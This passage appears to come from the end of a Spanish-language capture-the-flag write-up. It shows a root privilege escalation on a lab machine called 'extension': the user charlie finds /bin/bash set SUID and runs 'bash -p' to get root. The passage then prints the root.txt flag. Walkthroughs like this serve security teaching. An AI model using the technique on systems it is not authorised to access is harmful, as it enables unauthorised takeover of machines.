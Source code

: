 Ahora desde la shell de la máquina host como el usuario `Charlie`, podemos ver los permisos de la `bash`, y nos fijamos que es `SUID`, usaremos el parámetro `-p`, y somos root!

```shell
charlie@extension:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr 18  2022 /bin/bash
charlie@extension:~$ bash -p
bash-4.4# id
uid=1001(charlie) gid=1001(charlie) euid=0(root) groups=1001(charlie)
bash-4.4# whoami
root
bash-4.4# cd /root
bash-4.4# cat root.txt 
c0354241ed568beb14115bd049ad3a58
bash-4.4# 
```